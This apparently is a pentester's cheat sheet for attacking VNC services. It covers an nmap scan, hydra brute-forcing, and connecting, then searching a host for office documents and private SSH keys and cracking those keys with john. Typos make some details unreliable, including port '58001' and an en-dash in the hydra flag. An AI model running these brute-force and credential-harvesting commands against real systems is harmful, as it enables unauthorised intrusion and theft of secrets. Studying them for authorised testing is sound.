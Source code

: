 
## VNC - 5800 - 58001 - 5900 - 5901

### Scans

```
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>
```

### Brute force

```
hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV
```

### Connect

```
vncviewer <IP>:<PORT>
```

### File Discovery

#### Linux

#### VNC

```
Default password is stored in: ~/.vnc/passwd
```

#### File Discovery

```
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

#### SSH Keys

```
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```

#### Crack SSH Keys

| **Command**                          | **Description**          |
| ------------------------------------ | ------------------------ |
| `locate *2john`                      | Locate hashing scripts   |
| `ssh2john.py SSH.private > ssh.hash` | SSH Key to hash via john |
| `john --wordlist=WORDLIST ssh.hash`  | Crack hash using john    |
| `john ssh.hash --show`               | Show cracked hash        |
